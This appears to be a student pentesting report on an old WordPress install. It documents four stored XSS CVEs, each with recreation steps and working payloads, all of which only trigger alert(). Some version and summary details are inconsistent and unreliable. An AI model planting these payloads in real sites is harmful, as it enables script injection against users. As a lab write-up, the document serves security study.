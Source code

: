 # Project 7 - WordPress Pentesting

Time spent: Approx 7 hours spent in total

> Objective: Find, analyze, recreate, and document vulnerabilities affecting an old version of WordPress

## Pentesting Report



**Exploit 1: “Upload Same Origin Method Execution”**
-	[x] Summary: Attacking the system via a user clicking on a malicious comment that alerts the user. This click was led the user to involuntarily installing a plug-in on their system.
    -	Vulnerability type: XSS
    -	Tested in version: 4.5.1
    -	Fixed in version: 4.2.8
- [x] GIF Walkthrough:	
     <img src="https://github.com/eddenk/Codepathweek7/blob/master/attack_1.gif" alt="attack_1" title="attack_1" />
- [x] Steps to recreate: 
1.	Go to any post.
2.	Paste the following as a comment:
<button onclick="fire()">Click</button>
<script>
function fire() {
open('javascript:alert("exploit 1: Same Origin Method Execution")');
}
</script>
3.	Click on the button.
4.	Alert(“exploit 1: Same Origin Method Execution”) will pop up.
-	[x] Affected source code:
      	http://localhost/wp-admin/comment.php?action=editcomment&c=9
-	CVE:   2016-4566



**Exploit 2: “Unauthenticated Stored Cross Site-Scripting (XSS)”**
-	[x] Summary: Attacking the system when a vulnerable user comes in contact on a malicious webpage that will then alert the user. 
    -	Vulnerability Type: Stored XSS
    -	Tested in version: 4.2
    -	Fixed in version: 4.2.1
-	[x] GIF Walkthrough:
    <img src="https://github.com/eddenk/Codepathweek7/blob/master/attack_2.gif" alt="attack_2" title="attack_2" />
-	[x] Steps to recreate: 
1.	Go to any post
2.	Paste the following on a comment
<a title='x onmouseover=alert(unescape(/Exploit2:%successful/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px
AAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAA…’></a>
3.	Post the comment 
4.	Once the text is visible to the user, the alert will pop up
-	[x] Affected source code:
    http://localhost/wp-admin/comment.php?action=editcomment&c=8 
-	CVE:   2015-3440




**Exploit 3: “Authenticated Stored Cross-Site Scripting (XSS) in YouTube URL Embeds**
-	[x] Summary: Attacking the system via a user clicking on a malicious link that will alert the user. Clicking this embedded “YouTube” link will send an alert to the user. 
    -	Vulnerability types: XSS
    -	Tested in version: 4.0-4.7.2
    -	Fixed in version: 4.2.13
-	[x] GIF Walkthrough:
    <img src="https://github.com/eddenk/Codepathweek7/blob/master/attack_3.gif" alt="attack_3" title="attack_3" />
-	[x] Steps to recreate: 
1.	Create new post 
2.	Inside the body of the new post insert this code

[embed src='https://youtube.com/embed/1234\x3csvg onload=alert("vulnerable!")\x3e'][/embed]

3.	Save changes to the post and see the imbedded link, click on view post 
4.	An alert window will pop up once redirected with the message “vulnerable”

-	[x] Affected source code:
     http://localhost/wp-admin/post.php?post=28&action=edit 
-	CVE:   2017-6817




**Exploit 4: “Authenticated Cross-Site Scripting via Media File Metadata”**
-	[x] Summary: 
    -	Vulnerability type: Stored XSS
    -	Tested in version: 3.6-4.7.2
    -	Fixed in version: 4.2.13
-	[x] GIF Walkthrough:
    <img src="https://github.com/eddenk/Codepathweek7/blob/master/attack_4.gif" alt="attack_4" title="attack_4" />
-	[x] Steps to recreate: 
1.	Upload a media file to WordPress containing an exploit in the form of metadata 
2.	If the image uploaded does not contain Metadata already, add it to the description of the media file on the admin console add to the description:

      "filename <script>alert("Exploit 3 Successful");</script>"

3.	 When viewing the attachment page, an alert to the user will pop up.
-	[x] Affected source code:
      	http://localhost/wp-admin/upload.php?item=31 
-	CVE:   2017-6814




## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

Describe any challenges encountered while doing the work

## License

    Copyright [yyyy] [name of copyright owner]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.

